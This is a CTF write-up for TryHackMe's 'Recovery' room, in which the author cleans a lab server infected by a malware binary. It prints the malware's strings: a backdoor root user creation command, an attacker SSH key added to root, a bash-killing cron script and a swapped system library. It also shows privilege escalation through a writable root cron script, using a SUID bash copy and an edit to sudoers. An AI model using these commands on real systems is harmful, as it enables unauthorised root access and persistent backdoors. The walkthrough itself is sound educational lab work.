









# [Recovery](https://tryhackme.com/room/recovery)

In this writeup, I'm going through my steps in solving tryhackme's Recovery box.

To make things easier, I've set in my `/etc/hosts` the box's IP to `box.ip`

```
10.10.154.163 	box.ip 	box.ip
```

## Initial Recon

First, `nmap`

```
$ nmap -sCV box.ip -oA scans/nmap_init

# Nmap 7.80 scan initiated Mon Aug 17 17:24:52 2020 as: nmap -sCV -oA scans/nmap_init box.ip
Nmap scan report for box.ip (10.10.218.184)
Host is up (0.33s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 55:17:c1:d4:97:ba:8d:82:b9:60:81:39:e4:aa:1e:e8 (RSA)
|   256 8d:f5:4b:ab:23:ed:a3:c0:e9:ca:90:e9:80:be:14:44 (ECDSA)
|_  256 3e:ae:91:86:81:12:04:e4:70:90:b1:40:ef:b7:f1:b6 (ED25519)
80/tcp open  http    Apache httpd 2.4.43 ((Unix))
|_http-server-header: Apache/2.4.43 (Unix)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Aug 17 17:25:49 2020 -- 1 IP address (1 host up) scanned in 57.72 seconds
```

Visiting `box.ip` (HTTP on port 80) returns some gibberish



... which is probably is encrypted `index.html`.

Following Alex's instructions, going to `box.ip:1337` shows the Control Panel which grants us the flags as we go.



and to quote `view-source:http://box.ip:1337/`, "Hacking this site isn't part of the challenge.", so we won't bother with the page.

## SSH & "YOU DIDN'T SAY THE MAGIC WORD!"

Using the given SSH credentials `alex:madeline`, we connect to the machine with SSH

```bash
ssh alex@box.ip
```



... we get spammed with "YOU DIDN'T SAY THE MAGIC WORD!". Looking around, I couldn't find another entry point to the server, so I'm sticking with SSH.

I grabbed `.bashrc`, which is run every time `bash` is run, and found the cause of the spam: a single line looping infinitely at the end of `/.bashrc`

```bash
while :; do echo "YOU DIDN'T SAY THE MAGIC WORD!"; done &
```

... so I SSH'd into the machine without running `.bashrc` using `'bash --norc'` and removed the last line in `.bashrc` using `sed`


```
$ ssh alex@box.ip 'bash -norc'
alex@box.ip's password:
ls -la
total 64
drwxr-xr-x 1 alex alex  4096 Aug 17 10:40 .
drwxr-xr-x 1 root root  4096 Jun 17 08:55 ..
-rw-r--r-- 1 alex alex   220 Apr 18  2019 .bash_logout
-rw-r--r-- 1 alex alex  3586 Aug 17 10:40 .bashrc
-rw-r--r-- 1 alex alex   807 Apr 18  2019 .profile
-rwxrwxr-x 1 root root 37344 Jun 12 08:09 fixutil
sed -i '$d' .bashrc
```

... then I SSH'd back with a normal `bash` shell


... which gives us Flag 0.



## Getting rid of the bash-killer

Annoyingly enough, not long after getting the shell, we get kicked out.

We've found the binary `fixutil` which Alex has confirmed to be a piece of malware, so we retrieve it using `scp`

```
$ scp alex@box.ip:fixutil .
alex@box.ip's password:
fixutil
$ file fixutil
fixutil: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=cc895c4c0b6852b9c57f08ecb87a232f0777f506, for GNU/Linux 3.2.0, not stripped
$ chmod -x fixutil
```

Of course, I disabled `fixutil` with `chmod -x` so it doesn't wreck my system too.

Before doing any Reverse Engineering, I run `strings` on `fixutil`, which returns some interesting lines

```
/opt/.fixutil/backup.txt

/bin/mv /tmp/logging.so /lib/x86_64-linux-gnu/oldliblogging.so

/root/.ssh/authorized_keys

/usr/sbin/useradd --non-unique -u 0 -g 0 security 2>/dev/null
/bin/echo 'security:$6$he6jYubzsBX1d7yv$sD49N/rXD5NQT.uoJhF7libv6HLc0/EZOqZjcvbXDoua44ZP3VrUcicSnlmvWwAFTqHflivo5vmYjKR13gZci/' | /usr/sbin/chpasswd -e

/opt/brilliant_script.sh
#!/bin/sh
for i in $(ps aux | grep bash | grep -v grep | awk '{print $2}'); do kill $i; done;
/etc/cron.d/evil
* * * * * root /opt/brilliant_script.sh 2>&1 >/tmp/testlog

/home/moodr/Boxes/recovery/fixutil

index_of_encryption_key

encryption_key_dir

/home/alex/.bashrc
while :; do echo "YOU DIDN'T SAY THE MAGIC WORD!"; done &

echo pwned | /bin/admin > /dev/null
```

Several things to be noted here:

1. There's some backup in `/opt/.fixutil/backup.txt`
1. The malware replaces `/lib/x86_64-linux-gnu/oldliblogging.s` with what's likely a malicious version of `loggin.so`
1. The culprit likely added their own SSH key(s) to root's `authorized_keys`
1. `fixutil` created a new user named `security` with a hashed password (may be cracked)
1. The suspicious script `/opt/brilliant_script.sh` is likely run as a cron job to kill our bash & SSH every minute
1. A user `moodr` appears to have recovery files for `fixutil`
1. Interesting variables/functions `index_of_encryption_key` and `encryption_key_dir` to look for when reverse-engineering `fixutil`
1. The infinite loop that spammed us when connecting with SSH
1. An unknown executable `/bin/admin` (I just don't know what this belongs to)

First, to deal with the most annoying and obvious problem, `/opt/brilliant_script.sh`,  which appears to be what's kicking us off our SSH sessions.

First, to investigate and confirm the function(s) of `/opt/brilliant_script.sh`

```
$ scp alex@box.ip:/opt/brilliant_script.sh .
alex@box.ip's password:
brilliant_script.sh
$ cat brilliant_script.sh
#!/bin/sh

for i in $(ps aux | grep bash | grep -v grep | awk '{print $2}'); do kill $i; done;
```

The script uses `ps aux` to list all running processes, `grep` to filter out `bash` instances (our SSH sessions are tied to the `bash` shell), and killing all those `bash` instances. This confirms our suspicion that `/opt/brilliant_script.sh` is what's killing our SSH sessions.


Checking `/opt/brilliant_script.sh`, it's owned and run by root as a cron job and has permissions `-rwxrwxrwx`, so it would be a waste to just delete it. Therefore, I just nuked its content while keeping the file and its permissions intact.

Neutralizing the bash-killing cron job grants us Flag 1.



## Getting `ROOT`

Remember `/opt/brilliant_script.sh` that we nuked instead of deleting earlier? Since it's run by `root` and we have `rwx` permissions to it, we can make root run anything we want, which is easy privilege escalation!

### Using SUID

This method makes clean up a bit easier without changing existing files.

In `/opt/brilliant_script`, we write:

```
#!/bin/bash

cp /bin/bash /bin/shell
chmod +x /bin/shell
chmod u+s /bin/shell
```

This makes a copy of `bash` (which can be deleted later and doesn't directly change the `bash` binary), makes it executable, and sets the `SUID` bit. Running `shell -p` (equivalently `bash -p`) grants `root` access.



### Editing `/etc/sudoers`

Alternatively, we can add our user `alex` to `sudoers` using `/opt/brilliant_script.sh`

```
#!/bin/bash

echo "alex ALL=(ALL:ALL) ALL" >> /etc/sudoers
```

Once the cron job runs, we can `sudo` as `alex` with the provided password `madeline`


## Kicking out the back-door accounts

### User: `security`

Removing 1 line from `/etc/passwd` effectively removes the user `security`:

```
security:x:0:0::/home/security:/bin/sh
```

Which grants Flag 4

### SSH account

Looking at `/root/.ssh/authorized_keys`, there only 1 key


Deleting this key effectively removes the back-door SSH account and grants us Flag 3



## Reverse Engineering `fixutil`

I'm using [radare2](https://github.com/radareorg/radare2) with [r2ghidra-dec](https://github.com/radareorg/r2ghidra-dec) (radare2's ghidra decompiler integration) to analyze `fixutil`.

```
$ r2 fixutil
```

### `logging.so`

Earlier, using `strings fixutil`, we found that the malware replaced `logging.so` and/or `liblogging.so`

```
/bin/mv /tmp/logging.so /lib/x86_64-linux-gnu/oldliblogging.so
```

First, auto-analyze, seek to `main` and decompile with `pdg` to use the ghidra decompiler

```
> aaaa
> s main
> pdg
```


We see some familiar strings like `/home/alex/.bashrc`, `YOU DIDN'T SAY THE MAGIC WORD!`, and what we're looking for, `liblogging.so`.

```
sym.imp.system("/bin/cp /lib/x86_64-linux-gnu/liblogging.so /tmp/logging.so");
uVar1 = sym.imp.fopen("/lib/x86_64-linux-gnu/liblogging.so", 0x7b3c);
sym.imp.fwrite(obj.bin2c_liblogging_so, 0x5a88, 1, uVar1);

```

Here, we can see what `fixutil` did to `liblogging.so` in order

1. `/bin/cp /lib/x86_64-linux-gnu/liblogging.so /tmp/logging.so`
1. `fopen("/lib/x86_64-linux-gnu/liblogging.so", "wb")`

First, it copies the old & legitimate `liblogging.so` to `/tmp/logging.so` (moving and renaming). After that, it opens and writes malicious code to `liblogging.so`.

However, there should be an `oldliblogging.so` which is still nowhere to be seen in `main`. To look for it, use `iz` to print out strings in the binary and their locations and `grep` to easily find the strings we want.

```
> iz | grep logging
```


We see 1 line mention `oldliblogging.so` at `0x00004078` so we seek to that address and check the disassembly.

```
> s 0x00004078
> v
```



Here we see the string `/bin/mv /tmp/logging.so /lib/x86_64-linux-gnu/oldliblogging.so` which moves the original `logging.so` back but with a different name `oldliblogging.so`. Additionally, we also see strings for the SSH keyat `/root/.ssh/authorized_keys`, strings to add the user `security`, and the bash-killing script `brilliant_script.sh`. Since files in `/tmp` are deleted every time the machine reboots, `liblogging.so` is put back with a different name as a backup.

At this point, it's probably to assume how the malware replaced `liblogging.so`

1. Copy the original to `/tmp`
1. Write malicious code to `liblogging.so`
1. Move the original back with a different name `oldliblogging.so`

Having seen how it replaced the original `logging.so` with its malicious version, it's easy to remove the malicious file and put back the original.

```
# mv /lib/x86_64-linux-gnu/oldliblogging.so /lib/x86_64-linux-gnu/liblogging.so
```

... which grants us Flag 2.


### Decrypting the files

First of all, from running `strings` earlier, we found 2 interesting strings that are likely used in encrypting all the files, `encryption_key_dir` and `index_of_encryption_key`, so we search for those strings with `iz` and `grep`

```
[0x00001160]> iz | grep index_of_encryption_key
143 0x000060c3 0x000060c3 23  24   .rodata ascii   index_of_encryption_key
[0x00001160]> iz | grep encryption_key_dir
6   0x00002712 0x00002712 18  19   .rodata ascii   encryption_key_dir
183 0x00006304 0x00006304 18  19   .rodata ascii   encryption_key_dir
242 0x00006e4e 0x00006e4e 18  19   .rodata ascii   encryption_key_dir
```

However, after checking the  addresses `0x000060c3`, `0x00002712`, `0x00006304`, and `0x00006e4e`, they're just in the middle of a bunch of other strings so that didn't help much. With that, I again run `iz` but `grep` for "crypt" which returns more useful information.

```
[0x00006e4e]> iz | grep -i crypt
6   0x00002712 0x00002712 18  19   .rodata ascii   encryption_key_dir
25  0x000027b2 0x000027b2 18  19   .rodata ascii   XOREncryptWebFiles
120 0x00005fb1 0x00005fb1 15  16   .rodata ascii   encryption_file
143 0x000060c3 0x000060c3 23  24   .rodata ascii   index_of_encryption_key
171 0x000061fb 0x000061fb 18  19   .rodata ascii   XOREncryptWebFiles
183 0x00006304 0x00006304 18  19   .rodata ascii   encryption_key_dir
242 0x00006e4e 0x00006e4e 18  19   .rodata ascii   encryption_key_dir
263 0x00006fe2 0x00006fe2 18  19   .rodata ascii   XOREncryptWebFiles
```

Here we can see a suspicious string `XOREncryptWebFiles` which I missed in the `strings` earlier. I checked the addresses and didn't gather much from them. However, we now know that the web files are XOR-encrypted. To decrypt the file(s), we just need to find the key and `XOR` the encrypted file(s) with the key. Now the problem is how do we get the key?

Remember, the binary has in it the string `encryption_key_dir`, so there's should be a path to the key somewhere in the binary. To find the paths, we use `strings` and `grep`

```
$ strings fixutil | grep '/'
/lib64/ld-linux-x86-64.so.2
/usr/local/apache2/htdocs/
/opt/.fixutil/
/opt/.fixutil/backup.txt
/bin/mv /tmp/logging.so /lib/x86_64-linux-gnu/oldliblogging.so
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC4U9gOtekRWtwKBl3+ysB5WfybPSi/rpvDDfvRNZ+BL81mQYTMPbY3bD6u2eYYXfWMK6k3XsILBizVqCqQVNZeyUj5x2FFEZ0R+HmxXQkBi+yNMYoJYgHQyngIezdBsparH62RUTfmUbwGlT0kxqnnZQsJbXnUCspo0zOhl8tK4qr8uy2PAG7QbqzL/epfRPjBn4f3CWV+EwkkkE9XLpJ+SHWPl8JSdiD/gTIMd0P9TD1Ig5w6F0f4yeGxIVIjxrA4MCHMmo1U9vsIkThfLq80tWp9VzwHjaev9jnTFg+bZnTxIoT4+Q2gLV124qdqzw54x9AmYfoOfH9tBwr0+pJNWi1CtGo1YUaHeQsA8fska7fHeS6czjVr6Y76QiWqq44q/BzdQ9klTEkNSs+2sQs9csUybWsXumipViSUla63cLnkfFr3D9nzDbFHek6OEk+ZLyp8YEaghHMfB6IFhu09w5cPZApTngxyzJU7CgwiccZtXURnBmKV72rFO6ISrus= root@recovery
/root/.ssh/authorized_keys
/usr/sbin/useradd --non-unique -u 0 -g 0 security 2>/dev/null
/bin/echo 'security:$6$he6jYubzsBX1d7yv$sD49N/rXD5NQT.uoJhF7libv6HLc0/EZOqZjcvbXDoua44ZP3VrUcicSnlmvWwAFTqHflivo5vmYjKR13gZci/' | /usr/sbin/chpasswd -e
/opt/brilliant_script.sh
#!/bin/sh
/etc/cron.d/evil
* * * * * root /opt/brilliant_script.sh 2>&1 >/tmp/testlog
/usr/lib/gcc/x86_64-linux-gnu/9/include
/usr/include/x86_64-linux-gnu/bits
/usr/include/x86_64-linux-gnu/bits/types
/usr/include
/home/moodr/Boxes/recovery/fixutil
/home/alex/.bashrc
/bin/cp /lib/x86_64-linux-gnu/liblogging.so /tmp/logging.so
/lib/x86_64-linux-gnu/liblogging.so
echo pwned | /bin/admin > /dev/null
```

The only interesting paths we haven't used so far are `/usr/local/apache2/htdocs/`, `/opt/.fixutil/backup.txt`, `/etc/cron.d/evil`, and `echo pwned | /bin/admin > /dev/null`. Of these, the later 2 are the cron job that runs `brilliant_script.sh` every minute and I honestly don't know what `/bin/admin` is besides that it's an ELF.

Navigating to `/usr/local/apache2/htdocs/`, we see 3 files

```
root@recoveryserver:/usr/local/apache2/htdocs# file *
index.html:          data
reallyimportant.txt: data
todo.html:           data
```

The extensions are `txt` and `html` but the content is gibberish and Linux thinks their file types are `data`. This is because they're encrypted by `fixutil`. Going to the 3 files in the browser shows the same "data", so this is what we're trying to decrypt.

Going to the obviously related `/opt/.fixutil/`, we have 1 file `backup.txt`, whose content is `AdsipPewFlfkmll`. This is probably they key for the XOR encryption/decryption.

I then downloaded and decrypted them with a Python script

```python
#!/usr/bin/python3

g_key = "AdsipPewFlfkmll"
files = ["index.html", "reallyimportant.txt", "todo.html"]


def xor(data, key):
    raw = []
    for i in range(len(data)):
        raw.append(chr(ord(data[i]) ^ ord(key[i % len(key)])))
    decrypted = "".join(raw)
    return decrypted


for file in files:
    print(f"\nDecrypting {file}...\n")
    with open(file, "r+") as f:
        data = f.read()
        out = xor(data, g_key)
        print(out)
        f.write(out)
```

... which kinda didn't work for some reason (please tell me why), so I just used [CyberChef](https://gchq.github.io/CyberChef/#recipe=XOR(%7B'option':'UTF8','string':'AdsipPewFlfkmll'%7D,'Standard',false)) and copied the files back to the server, which grants us Flag 5.



## Miscellaneous Reports

Things that don't get us flags but would help in real life.

### Found users

Checking the `/home` directory and `/etc/passwd` ...

```
alex@recoveryserver:~$ ls -la /home
total 16
drwxr-xr-x 1 root root 4096 Jun 17 08:55 .
drwxr-xr-x 1 root root 4096 Jun 17 21:43 ..
drwxr-xr-x 1 alex alex 4096 Aug 17 10:40 alex

alex@recoveryserver:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
